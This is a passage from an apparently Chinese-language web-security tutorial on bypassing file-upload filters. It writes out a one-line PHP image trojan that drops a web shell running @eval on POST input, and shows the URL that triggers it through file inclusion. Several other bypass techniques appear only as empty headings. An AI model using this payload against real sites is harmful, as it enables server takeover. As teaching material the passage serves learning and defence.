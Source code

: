 
#### 2.2.9 其他绕过方式
**1、上传图片马结合文件包含**  
很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。  
假设已经上传一句话图片木马到服务器，路径为/upload/1.jpg,图片代码如下：
`<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['password']);?>")?>`  
然后访问URL：`http://www.xxxx.com/index.php?page=./upload/1.jpg`，包含这张图片，将会在index.php所在的目录下生成shell.php

**2、大写绕过**  


**3、空格绕过**


**4、后缀加.**


**5、::$DATA绕过**


**6、.空格.绕过**


**7、双写后缀绕过**


**8、字节标识绕过**


**9、数组后缀绕过**


<br>


### 2.3 基于文件内容（文件头检测）
利用每一个特定类型的文件都会有不一样的开头或者标志位进行检测。  
**常见格式**：